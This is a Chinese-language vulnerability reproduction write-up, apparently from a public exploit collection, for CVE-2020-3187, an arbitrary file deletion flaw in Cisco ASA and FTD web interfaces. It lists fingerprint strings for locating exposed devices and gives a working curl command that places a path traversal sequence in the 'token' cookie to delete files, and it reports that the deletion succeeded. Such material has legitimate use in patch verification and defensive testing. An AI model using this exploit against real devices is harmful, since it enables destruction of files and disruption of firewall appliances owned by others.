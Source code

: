 # Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

# Cisco ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

- Cisco ASA设备：



![](/images/202202162118289.png)



- Cisco FTD设备：



![](/images/202202162119368.png)

## 网络测绘

```
/+CSCOE+/
Cisco-ASA
```

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](/images/202202162119941.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](/images/202202162119367.png)



使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```



![](/images/202202162119779.png)

成功删除图标


